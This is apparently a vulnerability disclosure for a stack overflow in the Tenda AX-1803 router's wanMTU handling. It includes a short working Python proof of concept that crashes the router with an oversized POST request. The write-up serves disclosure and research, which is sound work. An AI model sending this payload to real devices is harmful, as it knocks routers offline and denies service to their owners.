


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1803

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the fromAdvSetMacMtuWan function processing the wanMTU parameter, the wanMTU is obtained via sub_4F55C and directly passed to the strcpy function, copying to the target buffer v9. The code does not restrict the length of the wanMTU parameter, and the target buffer v9 has a limited size. By crafting a request with an excessively long wanMTU parameter, a heap or stack overflow can be triggered, resulting in a Denial of Service (DoS) attack.


<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

wanMTU = "A" * 1000  
data = {
    "wanMTU": wanMTU
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>